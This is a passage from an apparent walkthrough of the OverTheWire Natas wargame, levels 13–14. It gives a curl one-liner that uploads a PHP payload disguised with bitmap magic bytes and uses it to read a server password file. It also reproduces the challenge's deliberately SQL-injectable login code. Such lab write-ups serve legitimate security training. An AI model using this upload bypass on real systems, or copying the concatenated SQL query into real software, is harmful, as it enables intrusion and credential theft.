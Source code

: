 This level is essentially the same as the last level except for one line:

```php
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
```

Before the file can be uploaded, it needs to pass the [exif_imagetype](https://www.php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants) test. As long as the file signature matches any one of the listed image types, the file will be uploaded. We can use [this site](https://www.filesignatures.net/index.php?page=search) to look up valid file signatures. The go-tos are `BM` (`.bmp`) and `GIF8` (`.gif`) since they're both common file types, easy to remember, and their signatures are all ascii so they're easy to add.

**Note:** The characters from the file signature will also show up in the results, so remember to ignore them.

```bash
curl -s "http://natas13:$natas13_pass@natas13.natas.labs.overthewire.org/$(echo -n 'BM<?php readfile("/etc/natas_webpass/natas14");?>' | curl -s "http://natas13:$natas13_pass@natas13.natas.labs.overthewire.org/" -X 'POST' -F "filename=natas13.php" -F "uploadedfile=@-;filename=natas13.php" | grep -oP 'href="\Kupload/[[:alnum:]]{10}.php')" | egrep -o [[:alnum:]]{32}$
```

[*Back to top*](#overthewire---natas)

## Level 14

![natas14_index.jpg](screenshots/natas/natas14_index.jpg)

[Sourcecode](http://natas14.natas.labs.overthewire.org/index-source.html):

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
```